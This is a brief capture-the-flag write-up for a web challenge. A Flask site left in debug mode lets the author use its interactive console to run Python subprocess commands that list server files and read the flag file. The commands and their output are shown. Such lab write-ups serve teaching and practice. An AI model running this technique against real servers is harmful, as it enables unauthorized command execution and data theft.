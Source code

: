 In this challenge, we are given a site hosted using flask. If we analyse the code used for hosting the site, we can see that debug mode is set True.

This means, we can run an interactive python shell in the server.

So, we can essentially open a subprocess and run bash commands to check the files present in the server.

```
import subprocess

out = subprocess.Popen(['ls'], stdout=subprocess.PIPE, stderr=subprocess.STDOUT)
stdout,stderr = out.communicate()

print(stdout)
```

This results in the following:

```#b'Dockerfile\ndocker-compose.yml\nman_this_sure_is_an_odd_name_for_a_flag_file\nserver.py\n'```

So we got the list of files present in the server. 

Now we can cat the flag file to get the flag.

```
out = subprocess.Popen(['cat', 'man_this_sure_is_an_odd_name_for_a_flag_file'], stdout=subprocess.PIPE, stderr=subprocess.STDOUT)
stdout, stderr = out.communicate()

print(stdout)
```

The flag is ```b'ictf{oops_I_left_my_debugger_on_I_need_to_run_home_before_my_webserver_burns_down}'```